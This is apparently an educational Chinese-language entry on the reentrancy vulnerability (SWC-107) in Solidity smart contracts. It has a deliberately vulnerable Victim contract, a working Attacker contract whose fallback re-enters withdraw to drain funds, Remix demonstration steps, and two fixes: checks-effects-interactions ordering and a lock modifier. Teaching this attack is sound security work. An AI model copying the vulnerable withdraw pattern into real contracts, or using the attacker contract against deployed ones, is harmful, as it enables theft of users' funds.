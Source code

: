 # 攻击名称
可重入攻击(Reentrancy)
# 攻击分类[CWE-841](https://swcregistry.io/docs/SWC-107)
代码实现与预期行为不一致
# 攻击描述
主要的风险就是调用外部合约会接管合约的控制流。在可重入攻击中，恶意合约在被攻击合约的第一个函数执行完成前在再次调用合约，这可能导致函数调用与预期行为不一致。核心流程与原理如下:
![](/entries/SW107-Reentrancy/concept.png)
# 合约案例
## 被攻击合约
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.6.10;
contract Victim {
    mapping(address=> uint256) public balances;
    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount);
        (bool success,) = msg.sender.call{value:amount}("");
        require(success, "Fail to send ether!");

        balances[msg.sender] -= amount;
    }

    function getBalance() public view returns(uint){
        return address(this).balance;
    }
}
```

## 攻击合约
```
contract Attacker{
    Victim public victim;
    constructor(address _victimAddr) public {
        victim = Victim(_victimAddr);
    }

    function beginAttack() external payable{
        require(msg.value >= 1 ether);
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
    }

    fallback() external payable{
        //死循环的话一毛也取不到
        if (address(victim).balance >= 1 ether) {
            victim.withdraw(1 ether);
        }
    }

    function getBalance() public view returns(uint){
        return address(this).balance;
    }
}
```

## 操作示例
1. 采用Remix账户1部署Victim合约，然后调用deposit存入4个ETH
2. 采用Remix账户1部署Attacker合约，然后调用beginAttack并传入1个ETH
3. Victim合约GetBalance: 0, Attacker合约GetBalance 5

# 防止策略
1. 切换存储更新和外部调用的顺序，防止启用攻击的重新进入条件。遵循“检查-效果-相互作用”设计模式。

```
contract Victim{
    ...
    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount);
        balances[msg.sender] -= amount;
        (bool success,) = msg.sender.call{value:amount}("");
        require(success, "Fail to send ether!"); 
    }
```

2.加锁。

```

    bool internal locked;
    modifier noReentrant(){
        require(!locked, "No re-entrancy!");
        locked = true;
        _;
        locked = false;
    }

    function withdraw(uint256 amount) public noReentrant{
        require(balances[msg.sender] >= amount);
        (bool success,) = msg.sender.call{value:amount}("");
        require(success, "Fail to send ether!");

        balances[msg.sender] -= amount;
    }
```